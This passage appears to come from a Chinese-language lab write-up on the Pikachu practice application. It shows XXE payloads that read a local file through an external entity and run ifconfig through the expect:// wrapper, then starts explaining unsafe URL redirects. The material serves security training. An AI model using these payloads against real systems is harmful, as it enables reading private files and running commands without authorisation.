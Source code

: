 ![](../../../../assets/img/安全/实验/Misc/pikachu/70.png)

payload,请先确定目标路径有这个文件
```xml
<?xml version = "1.0"?>
<!DOCTYPE note [
<!ENTITY aaa SYSTEM "file:///c:/1.txt">]>
<name>&aaa;</name>
```

![](../../../../assets/img/安全/实验/Misc/pikachu/71.png)

在 linux 下还可以输入这样的 payload
```XML
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "expect://ifconfig">
]>
<x>&f;</x>
```

---

## URL 重定向

不安全的 url 跳转问题可能发生在一切执行了 url 地址跳转的地方.

如果后端采用了前端传进来的(可能是用户传参,或者之前预埋在前端页面的 url 地址)参数作为了跳转的目的地,而又没有做判断的话

就可能发生"跳错对象"的问题.
